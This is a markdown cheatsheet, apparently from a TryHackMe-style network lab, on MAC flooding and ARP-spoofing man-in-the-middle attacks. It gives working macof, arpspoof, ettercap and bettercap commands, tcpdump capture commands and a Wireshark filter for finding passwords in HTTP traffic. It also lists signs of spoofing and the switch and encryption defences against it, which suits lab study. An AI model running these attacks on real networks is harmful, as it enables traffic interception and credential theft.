 # Cheatsheet — Commands, Filters & Mitigation


## Quick commands
- Show interfaces: `ip a`
- Show ARP table: `ip neigh` or `arp -n`
- Discover hosts: `sudo arp-scan -l` or `sudo nmap -sn 10.10.0.0/24`


### MAC Flooding
- Install: `sudo apt update && sudo apt install dsniff` (macof is in dsniff)
- Run flood: `sudo macof -i <iface>`
- Stop: `pkill macof`


### ARP Spoofing / MITM
- Enable IP forward: `sudo sysctl -w net.ipv4.ip_forward=1`
- arpspoof (dsniff):
- `sudo arpspoof -i <iface> -t <victim-ip> <gateway-ip>`
- `sudo arpspoof -i <iface> -t <gateway-ip> <victim-ip>`
- Ettercap (text mode): `sudo ettercap -T -M arp:remote /<victim-ip>/ /<gateway-ip>/`
- Bettercap (modern): `sudo bettercap -iface <iface>` then in prompt: `net.probe on`, `arp.spoof on`


### Capture
- tcpdump to file: `sudo tcpdump -i <iface> -w capture.pcap`
- tail live packets: `sudo tcpdump -i <iface] -n -vv`
- Wireshark display filters:
- ARP: `arp`
- HTTP: `http`
- IP: `ip.addr == 10.10.20.15`
- TCP port 80: `tcp.port == 80`


## Wireshark useful filters
- `arp.opcode == 2` — ARP replies
- `eth.addr == aa:bb:cc:dd:ee:ff` — filter by MAC
- `http contains "password"` — search HTTP bodies for "password"


## Signs of successful ARP spoofing
- `arp -n` on victim shows your attacker's MAC for the gateway IP
- You see traffic from victim when previously you could not (post MAC flood)
- ARP replies with conflicting MAC addresses observed in capture


## Mitigation & defence
- Port security on switches (limit number of MACs per port)
- Dynamic ARP Inspection (DAI) and DHCP snooping
- Use static ARP entries for critical servers
- Use encrypted protocols: HTTPS, SSH, TLS to limit useful plaintext capture


## References
- `macof` and `dsniff` manual pages
- `ettercap` and `bettercap` docs
- TryHackMe room walkthroughs and network fundamentals
